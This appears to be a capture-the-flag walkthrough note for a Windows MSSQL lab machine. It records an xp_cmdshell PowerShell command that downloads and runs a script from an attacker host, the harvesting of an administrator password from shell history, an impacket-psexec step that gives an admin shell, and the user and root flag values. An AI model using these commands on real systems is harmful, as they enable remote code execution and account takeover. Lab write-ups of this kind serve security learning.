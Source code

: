 public:: true
tags:: windows, mssql, psexec, history

- MSSQL Shell
	- ```powershell
	  xp_cmdshell powershell IEX(New-Object Net.webclient).downloadString(\"http://10.10.14.147:8000/rv.ps1\")
	  ```
- **User flag** at `C:\users\sql_svc\Desktop\user.txt`
	- 3e7b102e78218e935bf3f4951fec21a3
	  background-color:: green
- Administrator password found on shell history
	- `C:\users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`
		- #+BEGIN_CAUTION
		  /user:administrator MEGACORP_4dm1n!!
		  #+END_CAUTION
- ==privesc==: Get an administrative shell via psexec
	- ```bash
	  impacket-psexec 'administrator:MEGACORP_4dm1n!!@10.129.40.162'
	  ```
- **Root flag** at `C:\users\Administrator\Desktop\root.txt`
	- b91ccec3305e98240082d4474b848528
	  background-color:: green